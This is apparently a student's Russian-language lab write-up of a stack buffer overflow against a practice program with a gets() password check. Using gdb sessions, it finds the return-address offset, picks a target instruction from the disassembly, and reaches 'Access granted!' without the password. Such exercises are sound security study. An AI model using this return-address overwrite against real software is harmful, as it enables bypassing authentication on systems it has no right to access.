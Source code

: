 # Решение задачи 2 по теме Функции:

Для того, чтобы понять размеры буфера, воспользуемся информацией о стеке.

```cpp
(gdb) info stack full
#0  IsPassOk () at task_2.c:24
        Pass = "\000\000\000\000`\335\377\377\377\177\000"
#1  0x00000000004011b3 in main () at task_2.c:11
        PwStatus = 0
(gdb) 

```

При выводе в Pass содержится 11 символов, + зарезервированный для конца строки, всего 12 байт.
Далее, попытаемся обранужить положение адреса возврата:

```cpp
Starting program: /home/ivan/code/EltexAcademyLinuxC/functions/task_2 set args

Breakpoint 1, main () at task_2.c:8
8	{
(gdb) n
10		puts("Enter password:");
(gdb) n
Enter password:
11		PwStatus = IsPassOk();
(gdb) n

Breakpoint 2, IsPassOk () at task_2.c:24
24	{
(gdb) n
26		gets(Pass);
(gdb) n
AAAAAAAAAAAABBBBCCCCDDDD
27		return 0 == strcmp(Pass, "test");
(gdb) n
28	}
(gdb) n
0x0000000044444444 in ?? ()
(gdb) 

```

Введя строку из 12 символов A и чередуя символы алфавита блоками по 4 получаем изменения адреса возврата на 0x44444444. 0x44 - код симола D. Получаем пересечение символов D, находящихся с 21 по 24 байт в строке. Таким образом, наш адрес возврата находится на расстоянии 20 байт от переполняемого буфера.

Чтобы узнать адрес машинной инструкции получаения доступа к системе посмотрим на ассемблерный код функции main:

```cpp
Breakpoint 1, main () at task_2.c:8
8	{
(gdb) n
10		puts("Enter password:");
(gdb) disas
Dump of assembler code for function main:
   0x0000000000401196 <+0>:	endbr64 
   0x000000000040119a <+4>:	push   %rbp
   0x000000000040119b <+5>:	mov    %rsp,%rbp
   0x000000000040119e <+8>:	sub    $0x10,%rsp
=> 0x00000000004011a2 <+12>:	lea    0xe5b(%rip),%rdi        # 0x402004
   0x00000000004011a9 <+19>:	callq  0x401070 <puts@plt>
   0x00000000004011ae <+24>:	callq  0x4011e5 <IsPassOk>
   0x00000000004011b3 <+29>:	mov    %eax,-0x4(%rbp)
   0x00000000004011b6 <+32>:	cmpl   $0x0,-0x4(%rbp)
   0x00000000004011ba <+36>:	jne    0x4011d2 <main+60>
   0x00000000004011bc <+38>:	lea    0xe51(%rip),%rdi        # 0x402014
   0x00000000004011c3 <+45>:	callq  0x401070 <puts@plt>
   0x00000000004011c8 <+50>:	mov    $0x1,%edi
   0x00000000004011cd <+55>:	callq  0x4010a0 <exit@plt>
   0x00000000004011d2 <+60>:	lea    0xe49(%rip),%rdi        # 0x402022 <----- Искомая инструкция
   0x00000000004011d9 <+67>:	callq  0x401070 <puts@plt>
   0x00000000004011de <+72>:	mov    $0x0,%eax
   0x00000000004011e3 <+77>:	leaveq 
   0x00000000004011e4 <+78>:	retq   
End of assembler dump.

```

Также можем узнать значение сохранённого $rbp, чтобы оставить его нетронутым после изменения адресов:

```cpp
Starting program: /home/ivan/code/EltexAcademyLinuxC/functions/task_2 set args

Breakpoint 1, main () at task_2.c:8
8	{
(gdb) n
10		puts("Enter password:");
(gdb) n
Enter password:
11		PwStatus = IsPassOk();
(gdb) n

Breakpoint 2, IsPassOk () at task_2.c:24
24	{
(gdb) n
26		gets(Pass);
(gdb) n
AAAABBBBCCCCDDDDEEEEFFFF
27		return 0 == strcmp(Pass, "test");
(gdb) n
28	}
(gdb) n
0x0000000046464646 in ?? ()
(gdb) x $rbp
0x4545454544444444:	Cannot access memory at address 0x4545454544444444
(gdb) x $rip
0x46464646:	Cannot access memory at address 0x46464646
```

Значение 0x45 и 0x44 соотвестствубт байтам с 13 по 20й. Выясним их значения:

```cpp
Starting program: /home/ivan/code/EltexAcademyLinuxC/functions/task_2 set args

Breakpoint 1, main () at task_2.c:8
8	{
(gdb) n
10		puts("Enter password:");
(gdb) x $rbp
0x7fffffffdc60:	0x00
```

Программа, генерирующая строку для ввода находится в файле input_gen.c.
Сгенерировав строку для ввода получаем следующий результат:

```cpp
Starting program: /home/ivan/code/EltexAcademyLinuxC/functions/task_2 < file.txt

Breakpoint 1, main () at task_2.c:8
8	{
(gdb) n
10		puts("Enter password:");
(gdb) n
Enter password:
11		PwStatus = IsPassOk();
(gdb) n

Breakpoint 2, IsPassOk () at task_2.c:24
24	{
(gdb) n
26		gets(Pass);
(gdb) n
27		return 0 == strcmp(Pass, "test");
(gdb) n
28	}
(gdb) n
main () at task_2.c:17
17			printf("Access granted!\n");
(gdb) n
Access granted!
20		return 0;
(gdb) n
21	}
(gdb) n
__libc_start_main (main=0x401196 <main>, argc=1, argv=0x7fffffffdd68, init=<optimized out>, fini=<optimized out>, 
    rtld_fini=<optimized out>, stack_end=0x7fffffffdd58) at ../csu/libc-start.c:342
342	../csu/libc-start.c: No such file or directory.
(gdb) n
[Inferior 1 (process 29217) exited normally]
```

Не зная пароля, мы смогли принудительно перейти к выполнению нужной нам инструкции, минуя if.

Примечание. Данный код успешно запускается и завершается без ошибок при отладке в gdb. При попытке его запуска в терминале получить доступ к требуемой строке удаётся, но после этого программа завершается с segfault:

```bash
ivan@TravelMate:~/code/EltexAcademyLinuxC/functions$ ./task_2 < file.txt
Enter password:
Access granted!
Segmentation fault (core dumped)
```

Причину этого установить не удалось.

